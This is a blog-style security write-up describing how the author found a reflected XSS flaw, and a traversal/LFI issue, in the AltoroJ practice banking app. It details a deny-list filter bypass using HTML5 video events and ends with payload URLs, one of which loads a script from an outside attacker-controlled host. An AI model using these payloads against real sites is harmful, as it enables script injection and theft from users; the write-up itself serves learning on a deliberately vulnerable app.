









# AltoroJ - Reflected XSS in Error Messages via `Content` Parameter
Jonathan Gregson, 11 September 2020

## Brief
I wanted to practice finding XSS vulnerabilities on web apps and searched for a vulnerable app online. I found the [AltoroJ](https://github.com/hclproducts/AltoroJ) project, but not before finding a hosted version on [demo.testfire.net](http://demo.testfire.net/). This writeup will be about my findings there.

## Discovery
As with every website I visit, my first instinct was to type `test<` into the search bar and see if the angle bracket was left unescaped. As expected, `<` was converted to `&lt;` in the output. Nothing can be that easy anymore.

I quickly got bored of the search bar as nothing was jumping out at me as unusual or dangerous. What did jump out though was that some of the links on the page were to `index.jsp` with HTM pages in the `content` parameter, like `index.jsp?content=inside_contact.htm`. This seemed like something that could be vulnerable to local file inclusion or directory traversal.

I replaced `inside_contact.htm` with `../../../../../../../../../../etc/passwd` in a final attempt at instant gratification, but unfortunately, the application returned a 500 internal server error, referencing a null pointer exception:

Actually that all sounded very bad. I tried including the non-existent page `rnrgudvdhg.htm` and was given a much more helpful error message of `Failed due to The requested resource (/static/rnrgudvdhg.htm) is not available`. So whatever was passed in the `content` parameter the web app would look for in `static/`. We couldn't traverse back to the root of the file system yet, but could we traverse back out of `static` and include files from the root of the web app?

Looks like we could. We could even get recursive and have `index.jsp` include itself:

This is definitely vulnerable to LFI, but I'm still craving for XSS. I'll come back to the FLI/traversal aspect of this parameter another time. Focusing on XSS again, I thought the error message from earlier looked interesting. It was like it was returning part of an exception to me without filtering it. I checked if I could include an angle bracket:

It worked! This told me that the application was taking my input and attempting to access system resources without validating it, and then returning exceptions to me, again without validating them. There was so much going on here, but again, back to XSS.

## Exploitation
A user's ability to get angle brackets into the DOM almost guarantees there is an XSS vulnerability or five somewhere. There are just too many things you can abuse in the DOM. I knew I could open HTML tags, so I tried to close one as well, but the output kept coming back sanitized. Some combinations of angle brackets seemed to be sanitized and some did not. Anyway, I decided to focus on the classic `` tag closed safely somewhere and executed the payload. But what I got back was odd:

`Failed due to `? It was like an error was still occurring, but the exception output was being filtered, or there was none at all. I was getting this same result whenever I tried `onload=`, or `onerror=`, but not `onloa=`. In fact, every event handler I tried caused this, as well as style attributes and a few other things.

I thought there must be something in place which is filtering my input after all, and blocking it if it detects certain known dangerous inputs. I was still able to include image tags and even display remote images, I just couldn't bind any event listeners to them in the HTML tag. It was frustrating - I knew I was so close. But I also knew that filtering input and output by looking for matches on a deny list is a terrible security approach, because developers inevitably miss something. As a developer, I can attest to this.

I noted that the site felt "old" overall, and thought that this filter might not be up to date on newer DOM events like touch events. I dropped in `ontouchstart=alert(1` and, with a litter user interaction, it worked!

But this wasn't nearly good enough to feed by hunger for XSS. Not only did this require the XSS victim to be using a touch-based device, it also required the user to touch the image, and the site to place the image in a large, touchable spot. I needed payload that would trigger when the URL was loaded without any further interaction from the user.

I went back to trying to bypass this XSS filter. I tried using null bytes before, in the middle or, or end of the `onload=` attribute, but it always either broke the attribute or was blocked. I found that many or all HTML5 event attributes were not blocked, but most of them don't allow for execution on load, or don't apply to the tags I was using.

Many of the newer HTML5 events could be caused to fire on load, such as media events like `loadstart`, `loadeddata`, and `loadend`. But unfortunately, none of these events are fired by classic HTML tags like ``. To make matters worse, the tags that will fire them are actually supposed to be used as a nested set of tags like:

    <video onloadstart="alert(1)">
        <source src="video.mp4">
    </video>

I wasn't able to get nearly half of that into a payload before the filter would block it. But I was determined to find a way to use the newer HTML5 tags since I wasn't able to get past the filter in any other meaningful way. Out of desperation, I sent nothing but a `<video>` tag for the parameter and to my amazement, not only did this make it past the filter, but the browser restructured the HTML output so that I had a closing `</video>` tag with spec-compliant text in between:

Why hadn't I tried this an hour before? It would have saved so much time. I tried again with `<video><source>` and the browser properly closed both tags. This was perfect! I added some new, unfiltered HTML5 event attributes and tested the payload:

It worked! After a few hours of trial and error, I finally had a one-click reflected XSS payload:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22alert(1)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E

Taking things a step further, I updated the payload to download a JavaScript file from an attacker-controlled website and add it to the DOM:

    http://demo.testfire.net/index.jsp?content=%3Cvideo%20onloadedmetadata=%22s=document.createElement('script');s.src='//jdgregson.com/xss.js';document.body.appendChild(s)%22%3E%3Csource%20src=%22//jdgregson.com/vid.mp4%22%3E

At long last I had my fill of vulns for the evening.
